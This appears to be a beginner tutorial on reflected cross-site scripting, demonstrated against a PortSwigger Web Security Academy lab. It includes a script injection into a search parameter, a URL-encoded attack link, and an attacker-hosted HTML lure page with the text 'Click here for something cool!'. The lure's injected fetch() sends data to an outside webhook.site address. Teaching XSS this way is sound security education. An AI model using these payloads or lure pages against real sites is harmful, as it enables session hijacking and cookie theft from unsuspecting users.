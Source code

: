 <h1>What The Heck Is Cross Site Scripting???</h1>
Cross Site Scripting (XSS) is a web attack that runs arbitrary javascript in the context of the user's browsing session. So all cookies that are targeted with the XSS attack will be the cookie's in the victim's browser. Attackers using XSS against a victim essentially take momentary "control" of the victim's browser. Attackers can potentially use XSS to make a victim travel to a malicious domain, or change their email address, or send their sensitive cookies (or other data) to a malicious web server for collection.

<h2>Our First XSS Example</h2>

Analyze the images below.

![image](https://github.com/user-attachments/assets/467b33ba-e895-4b52-b549-6cedef4b8cbf)
![image](https://github.com/user-attachments/assets/2062483b-d93a-46f0-a6a5-528937e6ce0f)

In the above images, XSS was found in the search bar of a blog. I inject a <script>prompt("Is This XSS???")</script> into the search bar of the blog. Afterwords, a prompt alert is displayed on the screen, and the XSS payload is reflected in the **search** parameter in the URL. This
is known as Reflected XSS. Let's look at the page source to see where the XSS is taking place.

![image](https://github.com/user-attachments/assets/69d9267d-577b-416b-a73e-0a8dd243e3af)

If you look at the above small cut-out of the page source of the blog web page, our malicious <script></script> get's injected into an header tag. This is called **Reflected XSS into HTML Context**. Our XSS payload is injected into the part of the HTML that reflects the user's search query back to them on the page.

<h2>How Would An Attacker Send The Payload To The Victim?</h2>

1. The attacker could send this link with the URL encoded payload to the victim (https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Eprompt%28%22Is+This+XSS%3F%3F%3F%22%29%3C%2Fscript%3E) and if the victim visits the link the javascript will execute in the context of the victim's browser.

2. The attacker could also host the following malicious HTML on their domain, and when the victim visits the attacker's webpage and clicks the link, the victim's browser will execute the javascript.

```
<!DOCTYPE html>
<html>
<body>   
<a href="https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Efetch%28%22https%3A%2F%2Fwebhook.site%2Fb03c6236-9231-44b2-82d1-90058ca58a53%3Fmsg%3Dxss-confirmed%22%29%3C%2Fscript%3E">
    Click here for something cool!
</a>
</body>
</html>
```
